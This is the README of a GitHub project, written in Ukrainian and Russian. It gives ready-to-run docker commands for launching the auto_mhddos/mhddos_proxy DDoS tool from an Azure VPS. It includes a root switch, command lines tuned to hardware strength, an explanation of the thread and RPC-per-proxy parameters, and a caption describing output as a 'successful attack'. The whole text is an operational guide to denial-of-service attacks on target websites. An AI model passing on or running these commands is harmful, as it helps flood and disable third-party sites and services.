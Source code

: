 ### Для запуску на Ubuntu 20 Azure vps, 1 встановлює docker; 2 переводить у root; 3 запускає auto_Mhddos_proxy (https://github.com/Aruiem234/auto_mhddos)

```shell
sudo snap install docker;
sudo su;
sudo docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100 --debug
```
```shell
sudo docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100 --debug
```
htop from docker:
```shell
docker run -it --pid=host jonbaldie/htop
```
### Команды docker для разного железа: 

-- Слабое (2 ядра + 2-4 ГБ Озу).


```shell
sudo docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100 --debug
```
  
-- Среднее (4 ядра + 4-8 Гб Озу) .Эти же параметры использутся по умолчанию, если запускать команду без аргументов.:   
  

```shell
sudo docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 1000 200 --debug
```
  
-- Быстрое(4+ ядер + 8+ Гб Озу):  

  
```shell
sudo docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 2500 400 --debug
```
  
Значение параметров на примере "500 100":  
  
500 - количество потоков (threads). Параметр -t в mhddos_proxy.  
  
100 - параметр --rpc в mhddos_proxy. (количество пакетов отправляемых на прокси-сервер, перед тем как он передаст их на сайт-цель)  

Пример успешной атаки без третьего параметра --debug(больше ничего выводится не будет):  
![Стандартный вывод](https://user-images.githubusercontent.com/74729549/159160084-3ffd870b-7d17-44c9-9108-3908212402ce.png)  


ТАКЖЕ МОЖНО ДОБАВИТЬ В КОНЕЦ ТРЕТИЙ ПАРАМЕТР --debug , чтоб выводилась информация о каждом отправленном пакете,  
например:  
```shell
sudo docker run -it --rm --pull always ghcr.io/aruiem234/auto_mhddos:latest 500 100 --debug  
```
пример вывода с параметром --debug:  
![Параметр --debug](https://user-images.githubusercontent.com/74729549/159160027-dcc51f91-3d0b-4dd7-abe8-b63edf136e1e.png)  
